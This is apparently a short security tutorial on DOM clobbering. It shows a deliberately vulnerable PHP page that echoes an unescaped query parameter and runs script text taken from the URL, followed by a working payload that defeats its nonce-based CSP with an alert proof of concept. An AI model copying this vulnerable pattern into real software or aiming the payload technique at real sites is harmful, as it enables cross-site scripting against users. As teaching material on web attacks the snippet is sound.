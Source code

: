 # Bypass Techniques

## Dom clobbering

DOM Clobbering is a technique where an attacker manipulates the DOM (Document Object Model) to overwrite **global JavaScript variables** or functions by injecting HTML elements with specific id or name attributes. This can lead to security issues, including XSS, bypassing security checks, and unintended script execution.

```php
<?php
$nonce = md5(random_bytes(32));
header("Content-Security-Policy: script-src 'nonce-$nonce'");
?>
<head>
    <meta charset="UTF-8">
    <title>
        <?php echo 'Welcome ' . ($_GET['name'] ?? "") ?>
    </title>
    <script nonce="<?php echo $nonce ?>">
        window.environment = 'production';
    </script>
</head>
<body>
<script nonce="<?php echo $nonce ?>">
    if (window.environment && window.environment !== 'production') {
        let debug = new URL(location).searchParams.get('debug') || '';
        const script = document.createElement('script');
        script.nonce = "<?php echo $nonce ?>";
        script.innerText = debug;
        document.body.appendChild(script);
    }
</script>
</body>

# Payload: 
# ?name=</title><div id=environment ><script>&debug=alert("Wizer")
```
